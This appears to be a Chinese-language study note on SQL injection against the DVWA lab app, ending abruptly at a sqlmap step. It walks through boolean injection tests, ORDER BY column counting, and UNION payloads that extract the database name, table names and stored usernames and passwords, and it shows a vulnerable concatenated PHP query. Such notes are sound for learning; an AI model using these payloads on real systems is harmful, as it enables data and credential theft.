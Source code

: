 SQL：结构化查询语言（structured query language）用于操作数据库的语言

  

判断

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

```php
$query = "SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=1#';";//1=1正常输出
$query = "SELECT first_name, last_name FROM users WHERE user_id = '1' and 1=2#';";//1=2错误输出
满足上面则证明SQL语句生效，存在SQL注入漏洞
```

#：作用是注释（移除）后续SQL语句



利用

1.判断列/字段数：

```
order by [column_num]
```

逐渐增加num值，直到$n$出现报错，则说明该数据库有$n-1$列/字段

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2#';
```



2.联合查询其他信息：

```
union select [sql1][sql2]
```

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user(),database()#';
```

user()：返回当前数据库连接用户

database()：返回当前数据库名称



3.联合查询表

```
union select table_name,table_schema from information_schema.tables where table_schema='[database_name]'
```

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select table_name,table_schema from information_schema.tables where table_schema='dvwa'#';
```

从information_schema数据库中查询dvwa数据库表



4.联合查询信息

```
union [query_sql]
```

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' union select user,password from users#';
```

查询当前数据库的users表中user和password数据



SQLmap：把复杂度利用过程自动化

第一步：检测漏洞

